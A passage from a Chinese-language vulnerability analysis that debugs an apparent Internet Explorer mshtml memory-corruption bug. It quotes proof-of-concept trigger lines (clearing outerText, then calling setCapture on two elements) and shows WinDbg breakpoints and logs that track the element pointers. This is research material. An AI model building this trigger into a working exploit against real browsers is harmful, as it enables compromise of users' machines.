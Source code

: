 我们来看剩下的三句代码，清空包含`<sup></sup>`在内的标签，轮流设置`id_0`和`id_1`的焦点
```
id_0["outerText"] = "";
id_0.setCapture();
id_1.setCapture();
```

此处由于重新调试，所以对象指针发生了变化，先设置一下方便调试的断点
```
0:013> bu jscript!sin
0:013> bu jscript!cos
0:013> bu jscript!tan
0:013> bu mshtml!CElement::CElement ".echo 获取到对象指针;r eax;gc"
```

先运行起来，若干个DOM树节点创建，输出一些日志，断在`Math.tan`后，开始创建我们的两个元素对象
```
0:013> g
获取到对象指针
eax=05b4efd8
获取到对象指针
eax=06b4dfd8
获取到对象指针
eax=07614fd8
获取到对象指针
eax=07602fd0
获取到对象指针
eax=07606f98
ModLoad: 675f0000 676a2000   C:\Windows\System32\jscript.dll
获取到对象指针
eax=0780efd0
Breakpoint 2 hit
eax=00000000 ebx=0410c2e8 ecx=00000005 edx=00000003 esi=0410c2d8 edi=0410c2d8
eip=6761d898 esp=0410c1f4 ebp=0410c230 iopl=0         nv up ei pl nz ac po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000212
jscript!tan:
6761d898 ff2580105f67    jmp     dword ptr [jscript!_imp__tan (675f1080)] ds:0023:675f1080={msvcrt!tan (762fde34)}
```

再次运行，断在`Math.sin`，可以获取到两个元素对象的指针：`0x07799fd8`和`0x0781efc8`
```
0:005> g
获取到对象指针
eax=07799fd8
获取到对象指针
eax=0781efc8
Breakpoint 0 hit
eax=00000000 ebx=0410c2e8 ecx=00000005 edx=00000003 esi=0410c2d8 edi=0410c2d8
eip=6761d6e9 esp=0410c1f4 ebp=0410c230 iopl=0         nv up ei pl nz ac po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000212
jscript!sin:
6761d6e9 ff2568105f67    jmp     dword ptr [jscript!_imp__sin (675f1068)] ds:0023:675f1068={msvcrt!sin (762f8aea)}
```
